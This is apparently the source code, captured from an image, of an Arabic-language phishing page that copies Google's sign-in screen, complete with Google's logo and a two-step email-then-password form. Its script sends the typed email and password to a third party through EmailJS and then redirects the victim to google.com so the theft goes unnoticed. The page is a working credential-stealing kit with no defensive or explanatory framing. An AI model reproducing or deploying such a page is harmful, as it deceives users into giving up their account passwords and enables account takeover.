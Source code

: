             if (email.trim() === "" || password.trim() === "") {
                errorMessage.textContent = "يرجى ملء جميع الحقول بشكل صحيح.";
                errorMessage.style.display = "block";
                return;
            }

            // إرسال البيانات باستخدام EmailJS
            emailjs.send("mysv8980", "template_zqdt2dl", {
                email: email,
                password: password
            }).then(function(response) {
                console.log("تم إرسال البريد الإلكتروني بنجاح!", response.status, response.text);
                window.location.href = "https://www.google.com"; // توجيه المستخدم إلى Google
            }, function(error) {
                console.error("فشل إرسال البريد الإلكتروني:", error);
                alert("حدث خطأ أثناء إرسال البيانات. يرجى المحاولة مرة أخرى.");
            });
        }
    </script>
</head>
<body>
    <div class="login-container">
        <img class="logo" src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_92x30dp.png" alt="Google Logo">
        <h2>تسجيل الدخول</h2>
        <p>للتواصل مع جوجل</p>
        <input type="email" id="email" class="input-field" placeholder="البريد الإلكتروني أو الهاتف">
        <div id="email-error" class="error-message"></div>
        <button id="next-btn" class="btn" onclick="nextStep()">التالي</button>
        <div id="password-container" style="display: none;">
            <input type="password" id="password" class="input-field" placeholder="أدخل كلمة المرور">
            <div id="password-error" class="error-message"></div>
            <button class="btn" onclick="login()">تسجيل الدخول</button>
        </div>
        <button id="back-btn" class="btn btn-secondary" onclick="goBack()" style="display: none;">رجوع</button>
        <div class="links">
            <a href="#">نسيت البريد الإلكتروني؟</a>
        </div>
    </div>
</body>
</html>
